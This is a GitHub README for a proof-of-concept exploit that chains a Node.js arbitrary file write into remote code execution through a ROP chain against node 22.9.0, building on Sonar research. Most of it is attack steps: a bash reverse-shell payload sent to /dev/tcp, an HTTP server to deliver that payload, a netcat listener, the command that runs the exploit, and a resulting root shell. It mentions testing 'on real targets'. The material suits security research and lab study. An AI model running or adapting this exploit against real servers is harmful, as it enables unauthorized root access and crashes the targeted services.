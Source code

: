 # NodeJS File Write to RCE PoC

[Sonar Research: Why Code Security Matters - Even in Hardened Environments](https://www.sonarsource.com/blog/why-code-security-matters-even-in-hardened-environments/)

Stefan Schiller, a researcher at Sonar, discovered a way to abuse an **arbitrary file write** vulnerability on a **read-only filesystem**. By sending fake structures to an open file descriptor which is a pipe to "libuv", they were able jump to an arbitrary location.

Because `node` is often compiled without PIE (Position Independent Executable), the `.text` section is not randomized with ASLR, giving us predictable addresses to jump to. They found one gadget to start a ROP chain, which I expanded to a full chain that sends a reverse shell.

## Running

This exploit was specifically made for the latest version of node as of writing, **version 22.9.0**. Almost any other version will have different addresses and memory, resulting in a **crash**. Using GDB, the exploit script needs to be tweaked in this case.

> [!WARNING]  
> Any exploit attempt will crash the server, also after exiting the reverse shell. Keep this in mind while testing on real targets.

1. Start the vulnerable application inside [`app/`](app/) on port :8000

```sh
docker compose up --build
```

2. Set up an HTTP server with the `sh` payload

```shell
$ cd exploit/
$ nano index.html
bash -c 'bash -i >& /dev/tcp/host.docker.internal/1337 0>&1'
$ python3 -m http.server 1338
```

3. In case of a reverse shell in `http/index.html`, set up a listener

```sh
nc -lnvp 1337
```

4. Trigger the exploit using a ROP chain

```sh
cd exploit/
python3 main.py
```

Enjoy your reverse shell in `nc`!

```shell
Listening on 0.0.0.0 1337
Connection received on 192.168.96.1 61726
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@694a4b7f7419:/app# id
uid=0(root) gid=0(root) groups=0(root)
```
